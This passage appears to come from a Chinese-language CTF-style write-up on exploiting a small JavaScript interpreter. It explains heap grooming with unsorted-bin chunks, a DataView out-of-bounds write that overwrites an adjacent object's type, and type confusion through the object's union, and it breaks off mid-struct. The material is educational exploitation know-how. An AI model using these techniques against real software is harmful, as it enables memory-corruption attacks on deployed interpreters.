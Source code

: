 ``` 
obj = malloc(0x68) // js_Object
data = malloc(xx) // from user 
var = malloc(0x40) // js_Perperty 
```

我们期望 data和下一个obj挨着，主要思路就是使用 `unsorted bin`中的大堆快进行切割，

有一下两个思路

* 预留出来几个0x50大小，给`js_Property`， 让data和obj来每次切割大堆快。
* 重复使用变量，使用`js_setvar`中的逻辑，这样会复用原来的`js_Property`， 不会申请堆快。

最开始我尝试使用第一个思路，但是因为后续js代码的修改，导致编译不同， 这些小一些的`unsorted bin`不稳定存在， 这样利用就有一定概率性，甚至可能一直不行。于是使用第二个思路，这个构造起来也比较简单。

```js
a = DataView(0x68);
a = DataView(0x68);
b = DataView(0x68);
// heap : a-a.data-b

a.setUint8(0x68 + 0x8, xxx);
// b is a xx type
```

这个可以稳定利用。

### 类型混淆

其实这里思路也很简单，我们目前使用`Dataview`， 使用的是`js_object.u.dataview`的这部分

```c
		struct {
		    uint32_t length;
		    uint8_t* data;
		} dataview;
```

每次内存读写的检测都是这个`self.u.dataview.length`， 

同时这个位置的`obj.u`为`union`， 天然的一个类型混淆，

```c
	union {
		int boolean;
		double number;
		struct {
			const char *string;
			int length;
		} s;
		struct {
			int length;
		} a;
		struct {
			js_Function *function;
			js_Environment *scope;
		} f;
		struct {
			const char *name;
			js_CFunction function;
			js_CFunction constructor;
			int length;
			void *data;
			js_Finalize finalize;
		} c;
		js_Regexp r;
		struct {
			js_Object *target;
			js_Iterator *head;
```